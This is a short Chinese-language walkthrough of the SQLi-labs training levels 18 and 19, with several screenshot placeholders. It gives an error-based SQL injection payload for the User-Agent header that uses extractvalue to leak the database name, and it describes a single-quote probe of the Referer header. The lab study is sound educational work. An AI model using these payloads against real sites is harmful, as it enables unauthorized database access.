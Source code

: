 ![img](assets/1666668750691-386dc412-5d32-4109-a3a3-fd32cbf33d32.png)

![img](assets/1666670450737-3afc6fa8-c077-4b17-b0bd-06a353dd0fd6.png)



## Less-18   （单引号闭合UA报错注入）

```sql
1' or extractvalue(1,concat(0x7e,(database()),0x7e)))#
```

## Less-19   （')单引号括号闭合Referer insert报错注入）

```sql
一通胡乱测试，发现username和password处都没有任何变化，输入只要不正确统统输出登陆失败，还有IP,
只有输入正确的用户密码才登陆成功，并有了变化，显示出ip与Reffer
```

![img](assets/1666745175724-2b36ad00-1f00-4cfb-a737-35d59dbf8929.png)

猜测referer处与后端数据库存在交互，进行注入探测：

```sql
hackbar添加头部Referer: a'   报错  存在注入
```
